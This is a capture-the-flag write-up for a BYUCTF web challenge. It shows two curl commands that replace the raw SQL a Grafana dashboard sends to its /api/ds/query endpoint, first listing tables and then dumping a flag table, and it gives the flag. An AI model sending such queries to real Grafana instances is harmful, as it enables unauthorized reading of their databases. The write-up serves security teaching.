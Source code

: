 # Grafana - 460
#### web - [BYUCTF](../main.md)

## Challenge description:
> I spun up a Grafana dashboard to list some sports statistics, but unfortunately it's broken and I'm tired so I'm just going to ignore it. I also heard that it may be vulnerable if others can access it, but there's no way a vulnerability like that is still in production software, so I'm not worried about it.
>
> http://byuctf.xyz:40000

## Solution
I've never seen Grafana before, so I poked around a little before actually looking for an attack. Navigating to the dashboard, there is on ethat tries to load data but fails. Looking at the Network tab, we see its making a POST request with SQL queries in its body. I used [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-list-tables)
 to find payloads.

We can switch the SQL out to get a list of tables with the following command:
```
$ curl http://byuctf.xyz:40000/api/ds/query -X POST --header 'Content-Type: application/json' -d '{"queries":[{"refId":"A","datasource":{"uid":"ctAhPmynz","type":"postgres"},"rawSql":"SELECT table_name FROM information_schema.tables;","format":"table","datasourceId":1,"intervalMs":30000,"maxDataPoints":716}],"range":{"from":"2022-03-25T01:09:57.542Z","to":"2022-03-25T07:09:57.542Z","raw":{"from":"now-6h","to":"now"}},"from":"1648170597542","to":"1648192197542"}'
```
This returns that there is a table called flag.

Next:
```
$ curl http://localhost:40010/api/ds/query -X POST --header 'Content-Type: application/json' -d '{"queries":[{"refId":"A","datasource":{"uid":"ctAhPmynz","type":"postgres"},"rawSql":"select * from flag;","format":"table","datasourceId":1,"intervalMs":30000,"maxDataPoints":716}],"range":{"from":"2022-03-25T01:09:57.542Z","to":"2022-03-25T07:09:57.542Z","raw":{"from":"now-6h","to":"now"}},"from":"1648170597542","to":"1648192197542"}'
```
Unfortunately, I did't save the actual command output but the flag was in the body of the response :)
<details> 
    <summary>Flag</summary>
byuctf{qu3ry_1nj3ct10n_1s_4_"f34tur3"_1n_gr4f4n4}</details>